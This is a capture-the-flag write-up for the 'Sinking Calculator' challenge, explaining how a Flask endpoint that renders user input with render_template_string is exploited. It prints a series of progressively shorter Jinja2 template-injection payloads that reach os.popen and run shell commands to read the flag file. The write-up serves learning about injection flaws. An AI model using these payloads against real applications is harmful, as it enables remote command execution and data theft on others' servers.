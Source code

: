 # Sinking Calculator | Points: 300 | Solves: 86

My computer architecture professor told me: "Every time you see a decimal, you should hate it!" I took his advice to heart, and made a calculator. But don't worry! I got rid of all the decimals. No floats here!

Flag is in the file flag.

Attachments:
- https://imaginaryctf.org/r/40A3-app.py
- https://sinking-calculator.chal.imaginaryctf.org

#

We are presented with an input field where we can input our calculations. The code performing these calculations looks like this:

```python
@app.route('/calc')
def calc():
    query = request.args['query']
    request.args = {}
    request.headers = {} # no outside help!
    request.cookies = {}
    if len(query) > 80: # my exploit is 77 chars, but 80 is such a nice even number
        return "Too long!"
    res = render_template_string("{{%s}}"%query)
    out = ''
    for c in res:
        if c in "0123456789-": # negative numbers are cool
            out += c
    return out
```

We can see the actual calculations happen in this line of code:

```python
res = render_template_string("{{%s}}"%query)
```

This is a big indicator that the solution lies in exploiting the rendering of this template but there are 2 roadblocks. Firstly the length of our exploit can be at most 80 and secondly only the digits of whatever our exploit returns will be displayed. The objective is to read the contents of the file "flag" so we will need to convert its contents to digits somehow. Lets deal with how to read the file first. 

I'm not going to go into too much detail of how these exploits work. Instead I will focus on the steps I took to reduce the characters required, well below the limit of 80 characters. This was the first challenge of this kind I had worked on so hopefully I can capture the ideas and strategies I used to learn these techniques for the first time, including some links I used in the process. 

My initial exploit looked like this:

```python
request["application"]["__globals__"]["__builtins__"]["__import__"]('os')["popen"]("cat flag | xxd -b")["read"]()
```

What a mess! This script accesses the function ```popen``` to gain shell access to read the flag via cat and then pipe the output to xxd. With the -b option xxd will print the content of the file in binary, passing the numeric requirement mentioned earlier. But this is 113 characters long, no good. An obvious optimization is to use dot notation instead of indexing via strings, like this:

```python
request.application.__globals__.__builtins__.__import__("os").popen("cat flag | xxd -b").read()
```

A little better, 95 characters. At this point I felt like investigating another approach by using ```mro()``` and similar tricks. I came up with this:

```python
request.__class__.mro()[3].__subclasses__()[84].load_module("os").popen("cat flag | xxd -b").read()
```

At 99 characters it is actually worse than the previous exploit but I'm including it to show the process I went through. It was a path worth investigating, it just didn't pan out. Now I started playing around with different attributes that lead to accessing ```__builtins__``` and I found that ```self.__init__``` can be used instead of ```request.application``` which gets us down to 89 characters with the exploit below. So close! 

```python
self.__init__.__globals__.__builtins__.__import__("os").popen("cat flag | xxd -b").read()
```

I felt a little stuck at this point with the process of finding shorter paths to the ```os``` module so I played a bit with the command to read the flag and found two neat little tricks. There is a command similar to cat that also prints line numbers called "nl", one character shorter than cat. We can also use "*" instead of specifically reading just the file "flag", saving us 3 characters. 

```python
self.__init__.__globals__.__builtins__.__import__("os").popen("nl * | xxd -b").read()
````

Only 5 characters more to go! To cut off the last few characters I remembered that the ```os``` module can sometimes be accessed directly via the attribute ```__globals__```. Indeed if we use ```config.__class__.__init__.__globals__``` we can directly access the ```os``` module! We have our finished exploit! This trick in fact saves us so many characters that we can skip the last two tricks and still get away with it! 

```python
config.__class__.__init__.__globals__.os.popen('cat flag | xxd -b').read()
```

74 characters! We paste it into the input field and... no flag :(. Why? Well the assumption this exploit relies on is that xxd is installed, which is not the case on the challenge server. Is all hope lost? No. After googling a bit for alternatives to xxd I found this helpful Stackoverflow post https://stackoverflow.com/questions/1765311/how-to-view-files-in-binary-from-bash mentioning od. With the command od -b we convert the contents to octal, that is base 8 (It's also conveniently one character shorter than xxd). We will have to do some post processing though because od produces 7 character long line numbers which we have to filter out to read the actual flag, but that is easy enough to automate. Turns out we can also skip accessing the attribute ```__class__``` and go directly to ```__init__```. The working exploit, all tricks included, is the following 59 character exploit. 

```python
config.__init__.__globals__.os.popen('nl * | od -b').read()
```

Pasting this into the input field gets us the flag: ictf{this_flag_has_three_interesting_properties_it_has_no_numbers_or_dashes_it_is_quite_long_and_it_is_quite_scary}

Can we do any better though length wise? Quite a lot actually! Firstly I completedy missed the fact that od displays the content in base 8 by default, no need for the -b option (Looking back I really don't know how this happened, I guess I just assumed these sorts of tools usually use hex by default). Another obvious thing to do is to just call od * instead of piping the output from nl or cat (Again I don't understand how I missed this). I also talked to one of the organizers after the CTF who pointed out that instead of using ```config.__init__``` we can use ```g.pop```. I haven't confirmed this myself except that locally I can't access the ```os``` module through this method. This might be different from program to program or system to system, as seems to be the case regarding which modules can be accessed via ```__globals__``` and more specifically which object ```__globals__``` is accessed via. In any case, assuming the organizer I talked with was correct, the following is the shortest exloit so far. 

```python
g.pop.__globals__.os.popen("od *").read()
```

In the end we got down to 41 characters, almost half of the limit! More importantly we leave with a bunch of cool tricks to apply in future challenges of this kind, even ones with a tighter character limit. 
